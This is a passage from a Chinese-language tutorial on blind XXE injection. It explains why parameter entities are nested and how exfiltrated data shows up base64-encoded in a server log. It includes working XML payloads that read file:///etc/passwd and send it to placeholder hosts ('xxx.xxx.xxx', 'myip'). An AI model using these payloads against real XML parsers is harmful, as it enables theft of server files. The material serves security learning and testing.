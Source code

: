 evil.dtd 的内容，内部的%号要进行实体编码成&#x25

```
<!ENTITY % all
 "<!ENTITY &#x25; send SYSTEM 'http://xxx.xxx.xxx/?data=%file;'>"
 >
%all;
```

Tips：这里我啰嗦一嘴，为什么非要在%all 里面再套一个%send 呢？套一次还得把%给转义成&#x25;肯定是有原因的。现在看这个 payload 的调用顺序：%dtd-->%all-->%file-->%send，但如果 evil.dtd 的内容是下面这样呢

```
<!ENTITY % all SYSTEM 'http://xxx.xxx.xxx/?data=%file;'>
```

现在的调用顺序将变成：%dtd-->%all-->直接发送，vps 上面只会啥数据都没有，说白了就是为%file 缓冲一个执行时间

同时的话，也可以这样，就是不访问外部 dtd 的方法，但还是建议上面那种

```
<?xml version="1.0"?>
<!DOCTYPE message [
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://myip/?%file;'>">
	%start;
	%send;
]>
<message>10</message>
```

有报错直接查看报错信息

![](7.png)

无报错需要访问接受数据的服务器中的日志信息，可以看到经过 base64 编码过的数据，解码后便可以得到数据

![](8.png)

![](9.png)

解码如下

![](10.png)

当然能不能不去用参数实体直接完成盲 xxe 注入，通过更直接的方式使用外部实体来实现盲注，也给出一个例子如下，但实测没有 success

```
<?xml version="1.0"?>
<!DOCTYPE message [
	<!ENTITY xxe SYSTEM "file:///etc/passwd">
	<!ENTITY exfil SYSTEM "http://myip/?data=&xxe;">
]>
<message>&exfil;</message>
```

## 额外知识
